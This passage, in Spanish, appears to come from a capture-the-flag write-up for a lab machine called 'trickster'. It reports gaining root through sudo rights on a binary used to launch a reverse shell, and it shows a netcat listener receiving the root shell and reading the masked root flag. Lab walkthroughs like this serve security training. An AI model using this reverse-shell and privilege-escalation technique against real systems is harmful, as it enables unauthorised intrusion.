 Revisamos que hemos logrado obtener acceso al equipo como usuario `root`, ya que es quien lo ha ejecutado al disponer de permisos de `sudo` sobre el binario indicado que ha sido aprovechado para ejecutar la Reverse Shell. Logramos visualizar la flag de **root.txt**.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.34] 60656
root@trickster:/tmp# cat /root/root.txt
cat /root/root.txt
1036cb4e3******************
```

